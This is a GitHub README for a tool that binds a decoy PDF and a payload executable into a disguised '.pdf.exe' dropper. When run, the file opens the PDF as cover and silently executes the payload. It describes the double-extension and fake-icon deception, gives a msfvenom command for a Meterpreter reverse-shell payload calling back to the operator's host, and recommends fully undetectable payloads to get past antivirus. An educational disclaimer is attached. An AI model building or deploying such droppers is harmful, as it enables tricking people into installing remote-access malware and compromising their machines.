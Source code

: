 # 📦 PDF-EXE SFX Builder

A cross-platform Python tool to bundle a **decoy PDF** and a **payload EXE** into a single `.pdf.exe` Windows executable using NSIS (Nullsoft Scriptable Install System). On execution, the final file silently drops both files into the temporary directory and runs them — showing the PDF while triggering the EXE.

---

## 🚀 Features

* Automatically binds a PDF and EXE into one executable.
* Uses `.pdf.exe` **double extension** for deception.
* Works on **Windows and Linux**.
* Embeds a **PDF icon** to appear trustworthy.
* Creates **silent installers** using NSIS.
* **Customizable icon** — just replace `pdf_icon.ico` in the repo with your own `.ico` file.

---

## 🎭 How Deception Works

### 🧠 Double Extension Tactic (`filename.pdf.exe`)

On most systems:

* The default setting hides known extensions.
* A file named `document.pdf.exe` appears as `document.pdf` to the user.
* The icon shows a PDF symbol — making it more believable.

🛑 **This is a common social engineering trick used by attackers**, so ensure your use is ethical and educational.

---

## 💡 Example Use Case: Meterpreter or PowerShell Payload

### 1. Generate Payload with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > payload.exe
```

### 2. Or Convert PowerShell Script to EXE

Use tools like:

* [ps2exe](https://github.com/MScholtes/PS2EXE)
* IExpress

Then use that `.exe` with this builder.

---

## 🛠️ Prerequisites

### ✅ For Windows:

* Python 3.x
* `nsis/makensis.exe` must be present in the project (portable NSIS included)

### ✅ For Linux:

```bash
sudo apt update
sudo apt install nsis python3
```

Make sure `makensis` is available at `/usr/bin/makensis`

---

## 📂 Project Structure

```
pdf-exe-sfx-builder/
├── nsis/
│   └── makensis.exe        # (Windows only)
├── pdf_icon.ico            # PDF icon for deception (can be replaced to change output icon)
├── pdf_builder.py        # Main script
└── README.md
```

---

## ⚙️ Usage

```bash
python pdf_builder.py <path_to_pdf> <path_to_exe> <output_name>
```

### Example:

```bash
python pdf_builder.py report.pdf payload.exe final_output
```

📦 This generates: `final_output.pdf.exe`

---

## 🧰 What Happens Internally

1. A temp directory is created.
2. PDF and EXE are copied there.
3. An `.nsi` script is generated.
4. NSIS bundles them into a final silent installer.
5. That installer, when run:

   * Extracts both files to `%TEMP%`
   * Opens the PDF (for cover)
   * Executes the payload EXE (in background)

---

## ⚠️ Antivirus Evasion Notice

This tool **does not make your payload FUD (Fully Undetectable)** by default.

* Meterpreter `.exe` or standard PowerShell-based payloads generated via tools like `msfvenom` or `ps2exe` are typically flagged by antivirus software.
* To avoid detection, you must use a custom or obfuscated payload that is already FUD.
* This builder only packages and disguises your existing EXE; it does not modify or encrypt its behavior.

Use with caution, and always test in a safe, isolated environment.

---

## 🔐 Disclaimer

This tool is created **for educational and ethical penetration testing** purposes only.

> Never use this tool to target devices or individuals without proper authorization. The misuse of this software can lead to serious legal consequences.

---

## 🤝 Credits

Developed by **RITVIJ GAUR** aka *superflex*, part of the **HackingFlix** community.

Pull requests welcome. Star the repo if you find it useful! ⭐

